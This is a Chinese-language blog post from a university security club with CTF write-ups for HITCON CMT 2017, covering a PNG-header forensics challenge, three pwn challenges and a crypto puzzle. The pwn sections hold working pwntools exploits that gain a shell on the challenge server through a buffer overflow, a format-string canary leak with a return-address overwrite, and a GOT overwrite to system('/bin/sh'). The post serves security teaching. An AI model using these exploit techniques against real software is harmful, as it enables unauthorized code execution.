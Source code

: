 ```yaml
---
title: HITCON CMT 2017
date: 2017-08-27
tags:
  - club
layout: post
---
```


# HITCON CMT 2017 社群議程 投影片

[Speaker Deck](https://speakerdeck.com/oalieno/shen-tou-ce-shi-ji-ben-ji-qiao-yu-jing-yan-fen-xiang)
[SlideShare](https://www.slideshare.net/ssuserd44fa2/ss-79172936)

# HITCON CMT 2017 闖關題目 writeups

## [FORENSICS-100](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/59)
1. 題目說圖片被剪裁過，另外圖片的名稱是 `height_is_weird.png`，因此可以推測是高度被裁減過，需要改 png header 中的高度，讓不見的 flag 被顯現出來
2. 需要了解 png 的編碼方式，找到圖片高度在 header 裡的位置，可以參考[這裡](http://blog.csdn.net/hherima/article/details/45847043)
3. 由 png 協定可知，圖中的 35A 與 152 分別為此圖的寬與高
    ![](https://i.imgur.com/BXIel9j.png)

4. 運用一些可以直接修改檔案真正的值的軟體 ( 如 : hexedit )，對 152 做竄改，將數值調高

**這題要注意的是，出題者改高度沒有重新計算 CRC 檢驗碼，是想讓大家發現圖片有被改過的跡象，有些圖片解碼器對 png 做的 check 比較嚴格 ( ex. Mac 的預覽程式 )，可能會出現高度調超過真實高度或是發現 CRC 檢驗碼不正確會 crash 或完全不能讀的狀況(也就是你完全讀不了下載出來的檔案 @@)**

## [PWN-100](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/60)

這題是最基礎的 buffer overflow 題目

### 解題思路 :
目標是讓 to_be_overflow 等於 0xABCD1234 而拿到 shell
我們可以在原始碼中看到 `char text[40];` 和 `int to_be_overflowed` 是接在一起的
但是我們怎麼確認他們在記憶體上真的接在一起呢?

![objdump](https://i.imgur.com/1fCBCU7.png)

我們先用 objdump 來看一下 assembly ( 其他可以看 assembly 的工具都可以用喔 )

```assembly
lea eax,[ebp-0x34]
push eax
```

這行是在 call gets 函式之前把 gets 的參數放到 stack 的行為
對照原始碼就可以發現 ebp-0x34 就是我們的 text 在 stack 上的位址

```assembly
cmp DWORD PTR [ebp-0xc],0xabcd1234
```

這行等於是原始碼的 `if(to_be_overflowed == 0xabcd1234)`
所以 ebp-0xc 就是我們的 to_be_overflowed 的位址
`0x34 - 0xc = 0x28 = 40` 剛剛好他們之間的距離就是 text 這個陣列的大小，也就代表他們真的緊鄰依偎著彼此直到~~世界~~程式的終結

既然他們依偎在一起，而且 gets 這個函式不會檢查輸入的字串有多長 ( buffer overflow 的核心想法 )
那我們只要先輸入 40 個字，然後不按 Enter，再繼續輸入下去的字就會剛好蓋到 to_be_overflowed

### 需要注意的小地方

1. 是 [little endian](https://zh.wikipedia.org/wiki/字节序) 喔
2. 恩

### 程式碼

```python=
from pwn import *

useless = 0xABCD1234
offset = 40

payload = "A" * offset + p32(0xABCD1234)

r = remote('bamboofox.cs.nctu.edu.tw',22001)
r.sendline(payload)
r.interactive()
```

使用好用的 [pwntools](https://github.com/Gallopsled/pwntools) 做連線送 payload

```bash
( python -c "print 'A' * 40 + chr(0x34) + chr(0x12) + chr(0xCD) + chr(0xAB)" ; cat ) | nc bamboofox.cs.nctu.edu.tw 22001
```

直接把字元印出來 pipe 到 nc 指令
後面的 cat 是為了能讓你跟你拿到的 shell 互動
因為 cat 這個指令本身直接用不接檔案會像是一個 echo server，也就是你打什麼 cat 回什麼
然後再 pipe 到後面的 nc 就形成一個完美的互動式介面

## [PWN-200](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/61)
這題是一題簡單 format string + buffer overflow 的應用
可以參考我們的[社課連結](https://youtu.be/FvGhDlK36PI)

### 觀察

1. 先看一下原始碼，如果我們能跳去執行 `canary_protect_me` 這個函式，我們就可以拿到 shell 了
2. 這題有開 [canary 保護](http://yunnigu.dropsec.xyz/2017/03/20/Liunx%E4%B8%8B%E5%85%B3%E4%BA%8E%E7%BB%95%E8%BF%87cancry%E4%BF%9D%E6%8A%A4%E6%80%BB%E7%BB%93/)
3. 原始碼中出現 `printf(buf);`，存在 format string 的漏洞

### 解題思路

先用 format string 漏洞 leak 出 canary，就可以用 buffer overflow 蓋掉 return address 進而跳到 canary_protect_me 這個函式成功拿到 shell

### 程式碼

```python
from pwn import *

r = remote('bamboofox.cs.nctu.edu.tw',22002)

func = 0x0804854d
r.sendline('%15$x')
canary = int(r.recv(), 16)

payload = 'A'*40 + p32(canary) + 'B'*12 + p32(func)

r.sendline(payload)
r.interactive()
```

## [PWN-300](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/62)

這題同樣有 format string 的漏洞，第一次 gets, printf 用 format string 把 printf 的 GOT 蓋成 system 的函式位址，第二次 gets, printf 直接輸入 `/bin/sh` 就等於是，`system("/bin/sh")`

```python
from pwn import *

printf_got = 0x804a00c
system_plt_high = 0x0804
system_plt_low  = 0x8410
offset = 7

payload = p32(printf_got+2)
payload += p32(printf_got)
payload += "%{}c%{}$hn".format(system_plt_high - 8, offset)
payload += "%{}c%{}$hn".format(system_plt_low - system_plt_high, offset+1)

r = remote('bamboofox.cs.nctu.edu.tw', 22003)

r.sendline(payload)
r.interactive()
```

## [CRYPTO-100](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/64)
解題可以寫 python script 或直接用[線上工具](http://temp.crypo.com/) (應該是最簡單的一題 XD)
1. 看到很多 0101，猜測是 binary，try 一下應該是什麼的 binary，這題是 ascii 的 binary
2. 發現新字串有 `=` 結尾，猜測是 base64 的 padding
3. base64 decrype 完後，找到 `BBAMOOOF#X{cpR-Y}.T0`，因為有提示 轉置密碼 & FLAG 的形式是 : BAMBOOFOX{未知字串}，所以要找幾個字元一組
4. 發現四個字元一組 && encrypt role 是 [1,2,3,0] => 切開來做旋轉，即可找到 Flag